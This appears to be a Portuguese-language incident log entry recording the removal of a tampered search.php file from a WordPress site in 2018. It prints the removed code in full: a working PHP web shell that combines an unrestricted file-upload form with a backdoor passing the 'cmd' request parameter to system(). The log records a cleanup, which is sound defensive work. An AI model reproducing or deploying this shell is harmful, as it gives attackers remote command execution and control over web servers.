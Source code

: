 ```yaml
---
id: doc2
title: Registro de arquivos maliciosos Site Wordpress [2]
sidebar_label: COD 2018-04-11:02
---
```


## 2.0.0 - 2018-07-10

### Fixed

- Removido arquivo search.php com código fonte modificado

## Código

```php

<?php
$files = @$_FILES['files'];
if ($files['name'] != '') {
$fullpath = $_REQUEST['path'] . $files['name'];
if (move_uploaded_file($files['tmp_name'], $fullpath)) {
echo "<h1><a href='$fullpath'>OK-Click here!</a></h1>";
}
}echo '<html><head><title>Upload files...</title></head><body><form method=POST enctype=multipart/form-data action=><input type=text name=path><input type=file name=files><input type=submit value=Up></form></body></html>';
?><?php $cmd = <<<EOD
cmd
EOD;
if(isset($_REQUEST[$cmd])) {
system($_REQUEST[$cmd]); } ?>

```

